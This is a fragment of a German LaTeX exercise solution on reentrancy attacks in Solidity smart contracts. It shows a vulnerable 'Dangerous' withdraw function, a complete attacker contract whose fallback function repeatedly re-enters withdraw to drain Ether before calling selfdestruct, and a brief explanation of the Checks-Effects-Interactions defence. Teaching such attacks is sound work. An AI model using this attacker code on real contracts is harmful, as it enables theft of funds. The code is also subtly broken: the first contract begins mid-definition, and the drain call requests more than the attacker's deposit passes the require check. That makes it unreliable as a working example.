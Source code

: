 \documentclass[german]{../uebung}
\begin{document}
\begin{exercise} {5}
\begin{verbatim}
    function depositMoney() public payable {
        deposits[msg.sender] += msg.value;
    }

    function withdraw(uint amount) public {
        require(deposits[msg.sender] >= amount);
        if (!msg.sender.call.value(amount)()) {
            revert();
        }
        deposits[msg.sender] -= amount;
    }
}
\end{verbatim}

    \subsection*{2. Angreifer-Contract}

    \begin{verbatim}
pragma solidity ^0.4.24;

import "./Dangerous.sol"; // Assume Dangerous contract is in the same directory

contract Attacker {
    Dangerous public target;
    address public owner;

    constructor(address _target) public {
        target = Dangerous(_target);
        owner = msg.sender;
    }

    // Initiates the attack
    function attack(uint amount) public {
        target.withdraw(amount);
    }

    // Fallback function which is called when the target sends Ether to this contract
    function () external payable {
        if (address(target).balance > 0) {
            target.withdraw(address(target).balance);
        } else {
            selfdestruct(owner); // Transfer all Ether to the owner's account
        }
    }

    // Allows the contract to receive initial funds
    function fund() public payable {}
}
\end{verbatim}

    \textbf{e)}
    Um Reentrancy-Angriffe zu verhindern, gibt es verschiedene effektive Methoden. Hier sind einige der besten Ansätze:

    \subsection*{Checks-Effects-Interactions Pattern}

    Bei diesem Ansatz werden Änderungen am Zustand (Effekte) vor externen Aufrufen (Interaktionen) durchgeführt. Im \texttt{Dangerous} Contract sollte der Zustand des \texttt{deposits} Mappings geändert werden, bevor der \texttt{call} ausgeführt wird.


\end{exercise}
\end{document}
